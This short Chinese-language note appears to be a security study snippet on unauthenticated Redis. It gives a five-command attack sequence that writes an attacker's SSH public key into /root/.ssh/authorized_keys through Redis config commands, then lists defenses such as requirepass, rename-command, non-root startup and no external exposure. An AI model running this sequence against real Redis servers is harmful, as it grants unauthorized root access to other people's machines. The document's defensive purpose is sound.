 #### 一个简单的攻击过程
```
flushall
cat myid_rsa.pub | set crackit
config set dir /root/.ssh
config set dbfilename authorized_keys
save
```

#### Redis密码机制
- 启动时指定```--requirepass```


#### 思考？
- 如何限制flushall的使用？ 伪装命令
- 如何限制set dir/set dbfilename/save 命令的使用
- 如何限制redis的目录访问权限，限制其只能访问某几个目录


#### 最佳实践
- 不要配置外网权限
- 不要使用默认端口
- 非root用户启动
- 危险命令```rename-command```